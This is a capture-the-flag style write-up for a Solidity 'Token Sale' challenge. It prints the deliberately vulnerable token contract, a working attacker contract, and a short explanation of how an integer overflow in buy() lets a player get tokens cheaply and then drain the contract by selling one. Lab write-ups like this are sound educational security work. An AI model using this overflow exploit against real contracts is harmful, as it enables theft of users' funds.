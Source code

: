 # Token Sale

Complete attack code:

```
pragma solidity 0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] >= numTokens);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}

contract AttackTokenSale {
    TokenSaleChallenge public victimContract = TokenSaleChallenge(0xc29A7F50F2018b974a6546b6CaCc55836A828Adf);
    uint256 constant public MAX_VALUE = uint256(-1);
    uint256 public numTokens = (MAX_VALUE / 10**18) + 1;
    uint256 public sendValue = (numTokens * 10**18) - (MAX_VALUE) - 1;


    function attack() external payable {
        victimContract.buy.value(sendValue)(numTokens);
    }

    function sell() external payable {
        victimContract.sell(1);
    }

    function() public payable {

    }
}
```

Solution:

This attack relies on the lack of over flow protection. When using the `buy`
function we pass in a number (115792089237316195423570985008687907853269984665640564039458)
that will overflow to a value that is close to half an ether (415992086870360064)

Later we can `sell` one token and meet the `completed` requirments.
